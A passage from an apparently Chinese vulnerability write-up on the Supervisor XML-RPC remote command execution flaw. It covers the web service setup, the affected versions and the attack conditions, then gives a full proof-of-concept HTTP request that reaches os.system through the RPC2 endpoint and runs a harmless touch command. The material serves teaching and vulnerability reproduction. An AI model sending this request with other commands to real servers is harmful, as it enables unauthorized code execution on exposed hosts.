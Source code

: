 server 端监听的是 / tmp/supervisor.sock 这个套接字，而 client 端的 serverurl 也是这个套接字，所以 client 端都是通过这个套接字并根据 XML-RPC 协议与 server 端进行的通信。另外，将 [inrt_http_server] 中前面 ; 去掉即可开启 Web 服务，默认以 TCP 协议监听在 9001 端口上。（下面不开启用户密码认证，bind 所有网卡）

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nWbqq346o0XKloxIg5h1Z3smVrhtVnJ86uLG98qE00AMaccJdrBTRsaxxVNbCZyfxpGWm1dy1Dg/640?wx_fmt=png)

supervisor 的 web 界面大概长这样。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nWbqq346o0XKloxIg5h1ZtGG4gic5kJibxM7Wic0RCfNUM9WBY4iaibF7ZfxL78ibQ4bJgRUEK5CQcNdA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

利用条件

漏洞影响范围:  
Supervisor version 3.1.2 至 Supervisor version 3.3.2

开启 Web 服务且 9001 端口可被访问

版本在漏洞影响范围内

密码为弱密码或空口令

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

漏洞利用

放上 P 牛的 poc

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>

```
